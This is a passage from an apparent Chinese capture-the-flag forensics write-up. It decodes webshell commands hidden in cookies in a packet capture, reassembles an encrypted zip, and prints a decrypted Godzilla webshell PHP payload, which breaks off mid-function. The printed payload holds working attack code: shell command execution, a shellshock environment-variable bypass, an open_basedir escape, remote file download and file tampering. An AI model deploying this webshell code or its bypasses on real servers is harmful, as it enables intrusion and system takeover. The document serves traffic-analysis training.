                                for pair in cookie_header.split(';'):
                                    if '=' in pair:
                                        key, value = pair.split('=', 1)
                                        cookies[key.strip()] = value.strip()
                                
                                if 'cm' in cookies:
                                    try:
                                        decoded_cmd = base64.b64decode(cookies['cm']).decode('utf-8')
                                        stream_data.append({
                                            'stream_id': stream_id,
                                            'type': 'request',
                                            'timestamp': packet.time,
                                            'cm_encoded': cookies['cm'],
                                            'cm_decoded': decoded_cmd,
                                            'cn': cookies.get('cn', ''),
                                            'cp': cookies.get('cp', ''),
                                            'raw_cookie': cookie_header
                                        })
                                        print(f"请求命令: {decoded_cmd}")
                                    except:
                                        pass
                    
                    # 检查是否有HTTP响应
                    elif packet.haslayer(HTTPResponse):
                        http_resp = packet[HTTPResponse]
                        
                        # 检查Set-Cookie头
                        set_cookie_header = None
                        if hasattr(http_resp, 'Set-Cookie'):
                            set_cookie_header = http_resp.Set_Cookie.decode('utf-8', errors='ignore')
                        elif hasattr(http_resp, 'set_cookie'):
                            set_cookie_header = http_resp.set_cookie.decode('utf-8', errors='ignore')
                        
                        if set_cookie_header:
                            # URL解码
                            url_decoded = unquote(set_cookie_header)
                            
                            # 自动检测分隔符
                            delimiter = None
                            for char in url_decoded:
                                if not char.isalnum() and char not in ['+', '/', '=']:
                                    delimiter = char
                                    break
                            
                            if delimiter:
                                parts = url_decoded.split(delimiter)
                                if len(parts) >= 3:
                                    base64_part = parts[1]
                                    try:
                                        decoded_result = base64.b64decode(base64_part).decode('utf-8')
                                        stream_data.append({
                                            'stream_id': stream_id,
                                            'type': 'response',
                                            'timestamp': packet.time,
                                            'base64_encoded': base64_part,
                                            'decoded_result': decoded_result,
                                            'delimiter': delimiter,
                                            'raw_set_cookie': set_cookie_header
                                        })
                                        print(f"响应结果长度: {len(decoded_result)} 字符")
                                    except Exception as e:
                                        print(f"Base64解码失败: {e}")
                        
        except Exception as e:
            print(f"处理数据包时出错: {e}")
            continue
    
    # 按时间顺序排序
    stream_data.sort(key=lambda x: x['timestamp'])
    
    # 拼接所有解码结果
    decoded_content = ""
    request_commands = []
    
    for item in stream_data:
        if item['type'] == 'request':
            request_commands.append(item['cm_decoded'])
        elif item['type'] == 'response':
            decoded_content += item['decoded_result']
    
    # 写入文件
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write("=== 请求命令列表 ===
")
        for i, cmd in enumerate(request_commands, 1):
            f.write(f"{i}. {cmd}
")
        
        f.write("
=== 拼接的解码内容 ===
")
        f.write(decoded_content)
    
    print(f"
提取完成！")
    print(f"共找到 {len(request_commands)} 个请求命令")
    print(f"拼接内容长度: {len(decoded_content)} 字符")
    print(f"结果已保存到: {output_file}")
    
    return decoded_content

# 专门处理Cookie的解码
def decode_cookie_response(set_cookie_value):
    """
    解码Set-Cookie值
    """
    try:
        # URL解码
        url_decoded = unquote(set_cookie_value)
        
        # 查找分隔符（第一个非字母数字字符）
        delimiter = None
        for char in url_decoded:
            if not char.isalnum() and char not in ['+', '/', '=']:
                delimiter = char
                break
        
        if not delimiter:
            return "未找到分隔符"
        
        # 分割字符串
        parts = url_decoded.split(delimiter)
        if len(parts) < 3:
            return "格式错误"
        
        # Base64解码
        base64_part = parts[1]
        decoded = base64.b64decode(base64_part).decode('utf-8')
        return decoded
        
    except Exception as e:
        return f"解码错误: {e}"

# 批量处理函数
def process_multiple_streams(pcap_file):
    packets = rdpcap(pcap_file)
    results = []
    
    for packet in packets:
        try:
            if packet.haslayer(TCP) and packet.haslayer(Raw):
                payload = packet[Raw].load
                payload_str = payload.decode('utf-8', errors='ignore')
                
                # 处理请求
                if payload_str.startswith('GET /upload/upload/a.php'):
                    # 提取Cookie
                    cookie_match = re.search(r'Cookie:\s*([^\r
]+)', payload_str)
                    if cookie_match:
                        cookie_str = cookie_match.group(1)
                        cm_match = re.search(r'cm=([^;]+)', cookie_str)
                        if cm_match:
                            try:
                                decoded_cmd = base64.b64decode(cm_match.group(1)).decode('utf-8')
                                results.append({
                                    'type': 'request',
                                    'time': packet.time,
                                    'command': decoded_cmd
                                })
                            except:
                                pass
                
                # 处理响应
                elif 'HTTP/1.1 200 OK' in payload_str:
                    set_cookie_match = re.search(r'Set-Cookie:\s*([^\r
]+)', payload_str)
                    if set_cookie_match:
                        set_cookie_str = set_cookie_match.group(1)
                        if '=' in set_cookie_str:
                            cookie_name, cookie_value = set_cookie_str.split('=', 1)
                            decoded_content = decode_cookie_response(cookie_value)
                            if not decoded_content.startswith('解码错误') and not decoded_content.startswith('未找到'):
                                results.append({
                                    'type': 'response', 
                                    'time': packet.time,
                                    'content': decoded_content
                                })
                                
        except:
            continue
    
    # 按时间排序并拼接
    results.sort(key=lambda x: x['time'])
    final_content = ""
    
    for result in results:
        if result['type'] == 'response':
            final_content += result['content']
    
    return final_content

# 使用示例
if __name__ == "__main__":
    pcap_file = "2.pcapng"
    output_file = "decoded_content.txt"
    
    # 使用方法1
    content = extract_and_decode_streams(pcap_file, output_file)
    
    # 或者使用方法2
    # content = process_multiple_streams(pcap_file)
    # with open(output_file, 'w', encoding='utf-8') as f:
    #     f.write(content)
    
    print(f"
最终拼接的内容预览（前200字符）:")
    print(content[:200] if content else "无内容")
```

```
=== 请求命令列表 ===
1. id
2. dir
3. type 9.txt
4. type 4.txt
5. type 7.txt
6. type 10.txt
7. type 11.txt
8. type 1.txt
9. type 2.txt
10. type 8.txt
11. type 6.txt
12. type 3.txt
13. type 5.txt
14. type 0.txt
15. type 10.txt
16. type 11.txt
17. type 6.txt
18. type 9.txt
19. systeminfo
20. tasklist /SVC

=== 拼接的解码内容 ===

```

可以看到这个并不是我们需要的  
真正的第一部分是type 1.txt，也就是dHlwZSAxLnR4dA==，以这个过滤去找就行  
猜测后面也是这样一个一个找，但这些type是零零碎碎的，所以我是选择过滤筛选：

```
_ws.col.info == "GET http://192.168.7.1/upload/upload/a.php HTTP/1.1 "
```



```
504b03041400010008001c412c5bc19503b4ea0200004c040000070000006b65792e7478747ef1a449c9656d0296825e0cd78424b2cfffe08ca344698a6628142f8cdad16009670a48d75b76155a849cb4e1
```

刚好符号zip类型，与前面对上了

第二部分

```
84f059e8030af5b446c88819d72c4e219bb787e798382bc435a551658d53aea5569bbc3ffac6f1df18a4c2b7efb7736dd753ac143ff0852c019d0092cd230085fbe19ed5e1025f14db42162de1e271b72a62
```

第三部分

```
6061c84370cb052b94e38830aa9fdf1f7b48e3181d2ede6b10e680343fc8aa6619f458b476930d59d4671635493919a82f6f9b2b28b54620331e0999c5fe1dbbc445d6bc2626e6f72217140e9439dca557d8
```

第四部分

```
2f20a9c10dc6d3f7490c6630b4b05dd9a5e3d124cc6018ebc70bedf88abdb06dafc7c72b5f6864936ab9dea44f0e66943b25585839a541bdf809670c6b08ce84a43c1ac5f1d3ceb202def2b09f3490c42acf
```

第五部分

```
a6e26ea04825426aa9c634efe4f996805e9d24beb92a10643ee8fe95970e4a9448328c594fd5783670e6b08c9084f4c877aebf31b5faa2c6ca113d40401fe1ac0cf92ad6b18e249672d998361a5d4a2e6cdf
```

第六部分

```
3fdb176059a88d1fb0571967a64c141a6d18df8ac7aa56c0e63dcc85d0dbfa84084270169dfa5e8984ccd3f31e6bfec46a44c891019cce2584dd6d6ea9c207ecb6ef28bbaa7b1aaf46fabe6786ee8232c9c5
```

第七部分

```
68f8a23b6a818c72463aa79d255b20d96bb032ab19308a74625145680cb8bb55d52d4d1a7c8f4226b71e92e842278379c82185634f3ec174e2289a3a45eb3dd3cf0496b1eed33a6a01e84c9767f20b034701
```

第八部分

```
c08bfe54b5179b0da9c64581c85d261f85013d4ab126d98e628c22ef6bff68ef4931f2963e77720b8abcd46f36782ebf060649db141dab1e43870120be1755f8bd0a99e574b81556cc4f168000f42ea9e994
```

第九部分

```
7648efd0c2c68d14172ecf4fcfa6e3ab055f0458226822886d86d15cedb084b2eff4a3c01e3a1a838a54b87563b09b2fd2688ad2d4f1e75a69b0c3f06e6ff75c496905bc0f3dae6d7de35931de2d570c882d
```

第十部分

```
290b121d3b978fdf9ac8a15c71c31868f22e1cbf7a02be88b577a0678edfba56e8e338abd3fa3620bd4bd1c99f504b01023f001400010008001c412c5bc19503b4ea0200004c040000070024000000000000
```

第十一部分

```
0020000000000000006b65792e7478740a00200000000000010018000eec7b6d7923dc0100000000000000000000000000000000504b05060000000001000100590000000f0300000000
```

合并导出成压缩包  


用之前dns解出的密钥解密压缩包  
得到了一个字典，猜测是去爆破哥斯拉流量的密钥  
密钥是1p79u0ztp  
即0ca63845f8997771  
得到了内容：

```
b'$parameters=array();\r
$_SES=array();\r
function run($pms){\r
 global $ERRMSG;\r
 global $parameters;\r
\r
 reDefSystemFunc();\r
 $_SES=&getSession();\r
 @session_start();\r
 $sessioId=md5(session_id());\r
 if (isset($_SESSION[$sessioId])){\r
 $_SES=unserialize((S1MiwYYr(base64Decode($_SESSION[$sessioId],$sessioId),$sessioId)));\r
 }\r
 @session_write_close();\r
\r
 if (canCallGzipDecode()==1&&@isGzipStream($pms)){\r
 $pms=gzdecode($pms);\r
 }\r
 $parameters = g_deserialize($pms);\r
\r
 if (isset($_SES["bypass_open_basedir"])&&$_SES["bypass_open_basedir"]==true){\r
 @bypass_open_basedir();\r
 }\r
\r
 if (function_existsEx("set_error_handler")){\r
 @set_error_handler("payloadErrorHandler");\r
 }\r
 if (function_existsEx("set_exception_handler")){\r
 @set_exception_handler("payloadExceptionHandler");\r
 }\r
 $ver = PHP_VERSION;\r
 $result = "";\r
 if (get("bypassRasp") == 1 || $ver[0]&lt;5){\r
 $result=@evalFunc();\r
 }else{\r
 $exceptionType = "Exception";\r
 if ($ver[0] &gt;=7){\r
 $exceptionType = "Throwable";\r
 }\r
 $result = eval(\'try{return @evalFunc();} catch (\'.$exceptionType.\' $e) {return "Uncaught exception: ".$e-&gt;getMessage();}\');\r
 }\r
\r
 if ($result==null||$result===false){\r
 $result=$ERRMSG;\r
 }\r
\r
 if ($_SES!==null){\r
 @session_start();\r
 $_SESSION[$sessioId]=base64_encode(S1MiwYYr(serialize($_SES),$sessioId));\r
 @session_write_close();\r
 }\r
 if (canCallGzipEncode()){\r
 $result=gzencode($result,6);\r
 }\r
\r
 return $result;\r
}\r
function payloadExceptionHandler($exception){\r
 global $ERRMSG;\r
 $ERRMSG.="ExceptionMsg:".$exception-&gt;getMessage()."\r\
";\r
 return true;\r
}\r
function payloadErrorHandler($errno, $errstr, $errfile=null, $errline=null,$errcontext=null){\r
 global $ERRMSG;\r
 $ERRMSG.="ErrLine: {$errline} ErrorMsg:{$errstr}\r\
";\r
 return true;\r
}\r
function S1MiwYYr($D,$K){\r
 for($i=0;$i&lt;strlen($D);$i++) {\r
 $D[$i] = $D[$i]^$K[($i+1)%15];\r
 }\r
 return $D;\r
}\r
function reDefSystemFunc(){\r
 if (!function_exists("file_get_contents")&&!is_callable("file_get_contents")) {\r
 function file_get_contents($file) {\r
 $f = @fopen($file,"rb");\r
 $contents = false;\r
 if ($f) {\r
 do { $contents .= fgets($f,1024*1024); } while (!feof($f));\r
 }\r
 fclose($f);\r
 return $contents;\r
 }\r
 }\r
 if (!function_exists(\'gzdecode\')&&!is_callable("gzdecode")&&function_existsEx("gzinflate")) {\r
 function gzdecode($data)\r
 {\r
 return gzinflate(substr($data,10,-8));\r
 }\r
 }\r
 if (!function_exists("sys_get_temp_dir")&&!is_callable("sys_get_temp_dir")){\r
 function sys_get_temp_dir(){\r
 $SCRIPT_FILENAME=dirname(__FILE__);\r
 if (substr($SCRIPT_FILENAME, 0, 1) != \'/\'){\r
 return "C:/Windows/Temp/";\r
 }else{\r
 return "/tmp/";\r
 }\r
 }\r
 }\r
 if (!function_exists("getmygid") && !is_callable("getmygid")){\r
 function getmygid(){\r
 return 0;\r
 }\r
 }\r
 if (!function_existsEx("scandir")&&function_existsEx("opendir")&&function_existsEx("readdir")){\r
 function scandirEx($directory){\r
 $dh = opendir($directory);\r
 if ($dh!==false){\r
 $files=array();\r
 while (false !== ($filename = readdir($dh))) {\r
 $files[] = $filename;\r
 }\r
 @closedir($dh);\r
 return $files;\r
 }\r
 return false;\r
 }\r
 }\r
 if (!function_exists("file_put_contents")&&!is_callable("file_put_contents")){\r
 function file_put_contents($fileName, $data){\r
 $handle=fopen($fileName,"wb");\r
 if ($handle!==false){\r
 $len=fwrite($handle,$data);\r
 return $len;\r
 @fclose($handle);\r
 }else{\r
 return false;\r
 }\r
 }\r
 }\r
 if (!function_exists("is_executable")&&!is_callable("is_executable")){\r
 function is_executable($fileName){\r
 return false;\r
 }\r
 }\r
\r
}\r
function &getSession(){\r
 global $_SES;\r
 return $_SES;\r
}\r
function bypass_open_basedir(){\r
 @$_FILENAME = @dirname($_SERVER[\'SCRIPT_FILENAME\']);\r
 $allFiles = @scandir($_FILENAME);\r
 $cdStatus=false;\r
 if ($allFiles!=null){\r
 foreach ($allFiles as $fileName) {\r
 if ($fileName!="."&&$fileName!=".."){\r
 if (@is_dir($fileName)){\r
 if (@chdir($fileName)===true){\r
 $cdStatus=true;\r
 break;\r
 }\r
 }\r
 }\r
\r
 }\r
 }\r
 if(!@file_exists(\'bypass_open_basedir\')&&!$cdStatus){\r
 @mkdir(\'bypass_open_basedir\');\r
 }\r
 if (!$cdStatus){\r
 @chdir(\'bypass_open_basedir\');\r
 }\r
 @ini_set(\'open_basedir\',\'..\');\r
 @$_FILENAME = @dirname($_SERVER[\'SCRIPT_FILENAME\']);\r
 @$_path = str_replace("\\",\'/\',$_FILENAME);\r
 @$_num = substr_count($_path,\'/\') + 1;\r
 $_i = 0;\r
 while($_i &lt; $_num){\r
 @chdir(\'..\');\r
 $_i++;\r
 }\r
 @ini_set(\'open_basedir\',\'/\');\r
 if (!$cdStatus){\r
 @rmdir($_FILENAME.\'/\'.\'bypass_open_basedir\');\r
 }\r
}\r
function g_deserialize($pms){\r
 $index=0;\r
 $key=null;\r
 $parameters = array();\r
 while (true){\r
 $q=$pms[$index];\r
 $f = ord($q);\r
 if ($f == 0x01){\r
 $len=bytesToInt(substr($pms,$index+1,4));\r
 $index+=4;\r
 $value=substr($pms,$index+1,$len);\r
 $index+=$len;\r
 $parameters[$key]=g_deserialize($value);\r
 $key=null;\r
 }\r
 else if ($f==0x02){\r
 $len=bytesToInt(substr($pms,$index+1,4));\r
 $index+=4;\r
 $value=substr($pms,$index+1,$len);\r
 $index+=$len;\r
 $parameters[$key]=$value;\r
 $key=null;\r
 }else{\r
 $key.=$q;\r
 }\r
 $index++;\r
 if ($index&gt;strlen($pms)-1){\r
 break;\r
 }\r
 }\r
 return $parameters;\r
}\r
\r
function g_serialize($par){\r
 $out = "";\r
 foreach ($par as $key =&gt; $value) {\r
 $out.=$key;\r
 $_v = null;\r
 if (is_array($value)){\r
 $out.="\x01";\r
 $_v = g_serialize($value);\r
 }else{\r
 $out.="\x02";\r
 $_v = "".$value;\r
 }\r
 $out.=intToBytes(strlen($_v));\r
 $out.=$_v;\r
 }\r
 return $out;\r
}\r
\r
\r
function evalFunc(){\r
 @session_write_close();\r
 $className=get("codeName");\r
 $methodName=get("methodName");\r
 $_SES=&getSession();\r
 if ($methodName!=null){\r
 if (strlen(trim($className))&gt;0){\r
 if ($methodName=="includeCode"){\r
 return includeCode();\r
 }else{\r
 if (isset($_SES[$className])){\r
 return eval($_SES[$className]);\r
 }else{\r
 return "{$className} no load";\r
 }\r
 }\r
 }else{\r
 if (function_exists($methodName)){\r
 return $methodName();\r
 }else{\r
 return "function {$methodName} not exist";\r
 }\r
 }\r
 }else{\r
 return "methodName Is Null";\r
 }\r
\r
}\r
function deleteDir($p){\r
 $m=@dir($p);\r
 while(@$f=$m-&gt;read()){\r
 $pf=$p."/".$f;\r
 @chmod($pf,0777);\r
 if((is_dir($pf))&&($f!=".")&&($f!="..")){\r
 deleteDir($pf);\r
 @rmdir($pf);\r
 }else if (is_file($pf)&&($f!=".")&&($f!="..")){\r
 @unlink($pf);\r
 }\r
 }\r
 $m-&gt;close();\r
 @chmod($p,0777);\r
 return @rmdir($p);\r
}\r
function deleteFile(){\r
 $F=get("fileName");\r
 if(is_dir($F)){\r
 return deleteDir($F)?"ok":"fail";\r
 }else{\r
 return (file_exists($F)?@unlink($F)?"ok":"fail":"fail");\r
 }\r
}\r
function setFileAttr(){\r
 $type = get("type");\r
 $attr = get("attr");\r
 $fileName = get("fileName");\r
 $ret = "Null";\r
 if ($type!=null&&$attr!=null&&$fileName!=null) {\r
 if ($type=="fileBasicAttr"){\r
 if (@chmod($fileName,convertFilePermissions($attr))){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
 }else if ($type=="fileTimeAttr"){\r
 if (@touch($fileName,$attr)){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
 }else{\r
 return "no ExcuteType";\r
 }\r
 }else{\r
 $ret="type or attr or fileName is null";\r
 }\r
 return $ret;\r
}\r
function fileRemoteDown(){\r
 $url=get("url");\r
 $saveFile=get("saveFile");\r
 if ($url!=null&&$saveFile!=null) {\r
 $data=@file_get_contents($url);\r
 if ($data!==false){\r
 if (@file_put_contents($saveFile,$data)!==false){\r
 @chmod($saveFile,0777);\r
 return "ok";\r
 }else{\r
 return "write fail";\r
 }\r
 }else{\r
 return "read fail";\r
 }\r
 }else{\r
 return "url or saveFile is null";\r
 }\r
}\r
function copyFile(){\r
 $srcFileName=get("srcFileName");\r
 $destFileName=get("destFileName");\r
 if (@is_file($srcFileName)){\r
 if (copy($srcFileName,$destFileName)){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
 }else{\r
 return "The target does not exist or is not a file";\r
 }\r
}\r
function moveFile(){\r
 $srcFileName=get("srcFileName");\r
 $destFileName=get("destFileName");\r
 if (rename($srcFileName,$destFileName)){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
\r
}\r
function getBasicsInfo()\r
{\r
 $data = array();\r
 $data[\'OsInfo\'] = @php_uname();\r
 $data[\'CurrentUser\'] = @get_current_user();\r
 $data[\'CurrentUser\'] = strlen(trim($data[\'CurrentUser\'])) &gt; 0 ? $data[\'CurrentUser\'] : \'NULL\';\r
 $data[\'REMOTE_ADDR\'] = @$_SERVER[\'REMOTE_ADDR\'];\r
 $data[\'REMOTE_PORT\'] = @$_SERVER[\'REMOTE_PORT\'];\r
 $data[\'HTTP_X_FORWARDED_FOR\'] = @$_SERVER[\'HTTP_X_FORWARDED_FOR\'];\r
 $data[\'HTTP_CLIENT_IP\'] = @$_SERVER[\'HTTP_CLIENT_IP\'];\r
 $data[\'SERVER_ADDR\'] = @$_SERVER[\'SERVER_ADDR\'];\r
 $data[\'SERVER_NAME\'] = @$_SERVER[\'SERVER_NAME\'];\r
 $data[\'SERVER_PORT\'] = @$_SERVER[\'SERVER_PORT\'];\r
 $data[\'disable_functions\'] = @ini_get(\'disable_functions\');\r
 $data[\'disable_functions\'] = strlen(trim($data[\'disable_functions\'])) &gt; 0 ? $data[\'disable_functions\'] : @get_cfg_var(\'disable_functions\');\r
 $data[\'Open_basedir\'] = @ini_get(\'open_basedir\');\r
 $data[\'timezone\'] = @ini_get(\'date.timezone\');\r
 $data[\'encode\'] = @ini_get(\'exif.encode_unicode\');\r
 $data[\'extension_dir\'] = @ini_get(\'extension_dir\');\r
 $data[\'Path\'] = @getenv(\'Path\');\r
 $data[\'PATHEXT\'] = @getenv(\'PATHEXT\');\r
 $data[\'APPDATA\'] = @getenv(\'APPDATA\');\r
 $tmpDir=@sys_get_temp_dir();\r
 $separator=substr($tmpDir,strlen($tmpDir)-1,1);\r
 if ($separator!=\'\\\'&&$separator!=\'/\'){\r
 $tmpDir=$tmpDir.\'/\';\r
 }\r
 $data[\'systempdir\'] = $tmpDir;\r
 $data[\'include_path\'] = @ini_get(\'include_path\');\r
 $data[\'DOCUMENT_ROOT\'] = $_SERVER[\'DOCUMENT_ROOT\'];\r
 $data[\'PHP_SAPI\'] = PHP_SAPI;\r
 $data[\'PHP_VERSION\'] = PHP_VERSION;\r
 $data[\'PHP_INT_SIZE\'] = PHP_INT_SIZE;\r
 $data[\'ProcessArch\'] = PHP_INT_SIZE==8?"x64":"x86";\r
 $data[\'PHP_OS\'] = PHP_OS;\r
 $data[\'canCallGzipDecode\'] = canCallGzipDecode();\r
 $data[\'canCallGzipEncode\'] = canCallGzipEncode();\r
 $data[\'session_name\'] = @ini_get("session.name");\r
 $data[\'session_save_path\'] = @ini_get("session.save_path");\r
 $data[\'session_save_handler\'] = @ini_get("session.save_handler");\r
 $data[\'session_serialize_handler\'] = @ini_get("session.serialize_handler");\r
 $data[\'user_ini_filename\'] = @ini_get("user_ini.filename");\r
 $data[\'memory_limit\'] = @ini_get(\'memory_limit\');\r
 $data[\'upload_max_filesize\'] = @ini_get(\'upload_max_filesize\');\r
 $data[\'post_max_size\'] = @ini_get(\'post_max_size\');\r
 $data[\'max_execution_time\'] = @ini_get(\'max_execution_time\');\r
 $data[\'max_input_time\'] = @ini_get(\'max_input_time\');\r
 $data[\'default_socket_timeout\'] = @ini_get(\'default_socket_timeout\');\r
 $data[\'mygid\'] = @getmygid();\r
 $data[\'mypid\'] = @getmypid();\r
 $data[\'SERVER_SOFTWAREypid\'] = @$_SERVER[\'SERVER_SOFTWARE\'];\r
 $data[\'SERVER_PORT\'] = @$_SERVER[\'SERVER_PORT\'];\r
 $data[\'loaded_extensions\'] = @implode(\',\', @get_loaded_extensions());\r
 $data[\'short_open_tag\'] = @get_cfg_var(\'short_open_tag\');\r
 $data[\'short_open_tag\'] = @(int)$data[\'short_open_tag\'] == 1 ? \'true\' : \'false\';\r
 $data[\'asp_tags\'] = @get_cfg_var(\'asp_tags\');\r
 $data[\'asp_tags\'] = (int)$data[\'asp_tags\'] == 1 ? \'true\' : \'false\';\r
 $data[\'safe_mode\'] = @get_cfg_var(\'safe_mode\');\r
 $data[\'safe_mode\'] = (int)$data[\'safe_mode\'] == 1 ? \'true\' : \'false\';\r
 $data[\'CurrentDir\'] = str_replace(\'\\\', \'/\', @dirname($_SERVER[\'SCRIPT_FILENAME\']));\r
 if (strlen(trim($data[\'CurrentDir\']))==0){\r
 $data[\'CurrentDir\'] = str_replace(\'\\\', \'/\', @dirname(__FILE__));\r
 }\r
 $SCRIPT_FILENAME=@dirname(__FILE__);\r
 $data[\'FileRoot\'] = \'\';\r
 if (substr($SCRIPT_FILENAME, 0, 1) != \'/\') {\r
 $drivers=array(\'C\',\'D\',\'E\',\'F\',\'G\',\'H\',\'I\',\'J\',\'K\',\'L\',\'M\',\'N\',\'O\',\'P\',\'Q\',\'R\',\'S\',\'T\',\'U\',\'V\',\'W\',\'X\',\'Y\',\'Z\');\r
 foreach ($drivers as $L){\r
 if (@is_dir("{$L}:/")){\r
 $data[\'FileRoot\'] .= "{$L}:/;";}\r
 }\r
 if (empty($data[\'FileRoot\'])){\r
 $data[\'FileRoot\']=substr($SCRIPT_FILENAME,0,3);\r
 }\r
 }else{\r
 $data[\'FileRoot\'] .= "/";\r
 }\r
 $result="";\r
 foreach($data as $key=&gt;$value){\r
 $result.=$key." : ".$value."\
";\r
 }\r
 return $result;\r
}\r
\r
function getFileEx($dir){\r
 $result = array();\r
 $filesystem = new DirectoryIterator($dir);\r
 $result["currentDir"] = $dir;\r
 $fileIndex = 0;\r
 foreach ($filesystem as $fileInfo) {\r
 if($fileInfo-&gt;isDot()){\r
 continue;\r
 }\r
 $lineData=array();\r
 $lineData[] = $fileInfo-&gt;getFilename();\r
 $lineData[] = $fileInfo-&gt;isFile()?"1":"0";\r
 $lineData[] = @date("Y-m-d H:i:s", $fileInfo-&gt;getMTime());\r
 $lineData[] = $fileInfo-&gt;getSize();\r
 $fr=($fileInfo-&gt;isReadable()?"R":"").($fileInfo-&gt;isWritable()?"W":"").($fileInfo-&gt;isExecutable()?"X":"");\r
 $lineData[] = $fr;\r
 $result[$fileIndex] = $lineData;\r
 $fileIndex++;\r
 }\r
 $result["count"] = $fileIndex;\r
 return g_serialize($result);\r
}\r
\r
function getFile(){\r
 $dir=get(\'dirName\');\r
 $dir=(strlen(@trim($dir))&gt;0)?trim($dir):str_replace(\'\\\',\'/\',dirname(__FILE__));\r
 $dir.="/";\r
 $path=$dir;\r
\r
 if (!@function_existsEx("scandir")&&!@function_existsEx("scandirEx")&&@class_exists("DirectoryIterator")){\r
 return getFileEx($path);\r
 }\r
\r
 $allFiles = function_existsEx("scandirEx")?@scandirEx($path):@scandir($path);\r
 $result=array();\r
 $fileIndex = 0;\r
 if ($allFiles!=null){\r
 $result["currentDir"] = $path;\r
 foreach ($allFiles as $fileName) {\r
 if ($fileName!="."&&$fileName!=".."){\r
 $fullPath = $path.$fileName;\r
 $lineData=array();\r
 $lineData[] = $fileName;\r
 $lineData[] = @is_file($fullPath)?"1":"0";\r
 $lineData[] = date("Y-m-d H:i:s", @filemtime($fullPath));\r
 $lineData[] = @filesize($fullPath);\r
 $fr=(@is_readable($fullPath)?"R":"").(@is_writable($fullPath)?"W":"").(@is_executable($fullPath)?"X":"");\r
 $lineData[] = $fr;\r
 $result[$fileIndex] = $lineData;\r
 $fileIndex++;\r
 }\r
 }\r
 $result["count"] = $fileIndex;\r
 }else{\r
 $result["errMsg"] = "Path does not exist or does not have permission to read!";\r
 }\r
 return g_serialize($result);\r
}\r
function readFileContent(){\r
 $fileName=get("fileName");\r
 if (@is_file($fileName)){\r
 if (function_existsEx("file_get_contents")){\r
 return file_get_contents($fileName);\r
 }else if (class_exists("SplFileObject")){\r
 $file = new SplFileObject($fileName,"rb");\r
 return $file-&gt;fread($file-&gt;getSize());\r
 }else{\r
 return "No Permission!";\r
 }\r
 }else{\r
 return "File Not Found";\r
 }\r
}\r
function uploadFile(){\r
 $fileName=get("fileName");\r
 $fileValue=get("fileValue");\r
 if (function_existsEx("file_put_contents")){\r
 if (@file_put_contents($fileName,$fileValue)!==false){\r
 @chmod($fileName,0777);\r
 return "ok";\r
 }\r
 }else if (class_exists("SplFileObject")){\r
 $file = new SplFileObject($fileName,"wb");\r
 $file-&gt;fwrite($fileValue);\r
 $file-&gt;fflush();\r
 $file = null;\r
 return "ok";\r
 }\r
 return "fail";\r
}\r
function newDir(){\r
 $dir=get("dirName");\r
 if (@mkdir($dir,0777,true)!==false){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
}\r
function newFile(){\r
 $fileName=get("fileName");\r
 if (@file_put_contents($fileName,"")!==false){\r
 return "ok";\r
 }else{\r
 return "fail";\r
 }\r
}\r
\r
function function_existsEx($functionName){\r
 $d=explode(",",@ini_get("disable_functions"));\r
 if(empty($d)){\r
 $d=array();\r
 }else{\r
 $d=array_map(\'trim\',array_map(\'strtolower\',$d));\r
 }\r
 return(function_exists($functionName)&&is_callable($functionName)&&!in_array($functionName,$d));\r
}\r
\r
function execCommand(){\r
 @ob_start();\r
 $cmdLine=get("cmdLine");\r
 if(substr(__FILE__,0,1)=="/"){\r
 @putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");\r
 }else{\r
 @putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");\r
 }\r
 $result="";\r
 if (!function_existsEx("runshellshock")){\r
 function runshellshock($d, $c) {\r
 if (substr($d, 0, 1) == "/" && function_existsEx(\'putenv\') && (function_existsEx(\'error_log\') || function_existsEx(\'mail\'))) {\r
 if (strstr(readlink("/bin/sh"), "bash") != FALSE) {\r
 $tmp = tempnam(sys_get_temp_dir(), \'as\');\r
 putenv("PHP_LOL=() { x; }; $c &gt;$tmp 2&gt;&1");\r
 if (function_existsEx(\'error_log\')) {\r
 error_log("a", 1);\r
 } else {\r
 mail("a@127.0.0.1", "", "", "-bv");\r
 }\r
 } else {\r
 return False;\r
 }\r
 $output = @file_get_contents($tmp);\r
 @unlink($tmp);\r
 if ($output != "") {\r
 return $output;\r
 }\r
 }\r
 return False;\r
 };\r
 }\r
\r
 if(function_existsEx(\'system\')){\r
 @system($cmdLine,$ret);\r
 }elseif(function_existsEx(\'passthru\')){\r
 $result=@passthru($cmdLine,$ret);\r
 }elseif(function_existsEx(\'shell_exec\')){\r
 $result=@shell_exec($cmdLine);\r
 }elseif(function_existsEx(\'exec\')){\r
 @exec($cmdLine,$o,$ret);\r
 $result=join("\
",$o);\r
 }elseif(function_existsEx(\'popen\')){\r
 $fp=@popen($cmdLine,\'r\');\r
 while(!@feof($fp)){\r
 $result.=@fgets($fp,1024*1024);\r
 }\r
 @pclose($fp);\r
 }elseif(function_existsEx(\'proc_open\')){\r
 $p = @proc_open($cmdLine, array(1 =&gt; array(\'pipe\', \'w\'), 2 =&gt; array(\'pipe\', \'w\')), $io);\r
 while(!@feof($io[1])){\r
 $result.=@fgets($io[1],1024*1024);\r
 }\r
 while(!@feof($io[2])){\r
 $result.=@fgets($io[2],1024*1024);\r
 }\r
 @fclose($io[1]);\r
 @fclose($io[2]);\r
 @proc_close($p);\r
 }elseif(substr(__FILE__,0,1)!="/" && @class_exists("COM")){\r
 $w=new COM(\'WScript.shell\');\r
 $e=$w-&gt;exec($cmdLine);\r
 $so=$e-&gt;StdOut();\r
 $result.=$so-&gt;ReadAll();\r
 $se=$e-&gt;StdErr();\r
 $result.=$se-&gt;ReadAll();\r
 }elseif (function_existsEx("pcntl_fork")&&function_existsEx("pcntl_exec")){\r
 $cmd="/bin/bash";\r
 if (!file_exists($cmd)){\r
 $cmd="/bin/sh";\r
 }\r
 $commandFile=sys_get_temp_dir()."/".time().".log";\r
 $resultFile=sys_get_temp_dir()."/".(time()+1).".log";\r
 @file_put_contents($commandFile,$cmdLine);\r
 switch (pcntl_fork()) {\r
 case 0:\r
 $args = array("-c", "$cmdLine &gt; $resultFile");\r
